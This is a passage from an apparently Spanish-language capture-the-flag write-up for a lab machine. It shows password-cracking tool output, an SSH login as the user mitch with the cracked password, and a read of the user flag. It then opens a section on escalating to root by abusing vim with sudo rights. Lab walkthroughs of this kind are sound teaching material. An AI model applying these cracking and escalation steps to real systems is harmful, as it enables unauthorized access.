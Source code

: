 ```bash
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Restore.Sub.#2...: Salt:0 Amplifier:0-0 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> chad91
Candidates.#2....: [Copying]
Hardware.Mon.#1..: Util:  5% Core: 400MHz Mem:1600MHz Bus:16
Hardware.Mon.#2..: Temp: 43c Util:  4% Core:1484MHz Mem:5989MHz Bus:8
```

¡Enhorabuena! Al descifrar la contraseña, ahora podemos acceder al sistema como el usuario **mitch** a través de SSH.

```bash
❯ ssh mitch@10.10.71.52 -p 2222
The authenticity of host '[10.10.71.52]:2222 ([10.10.71.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.71.52]:2222' (ED25519) to the list of known hosts.
mitch@10.10.71.52's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

Procedemos a listar los archivos en el directorio principal del usuario **mitch** y, al hacerlo, nos encontramos con la primera flag de la máquina.

```bash
$ ls
user.txt
$ cat user.txt
G00d************
```

## Escalación de privilegios

---

### Abuso de binario vim con permisos SUDO

En nuestro objetivo de escalar a privilegios de root, iniciamos listando los binarios que podemos ejecutar con permisos **SUDO**.
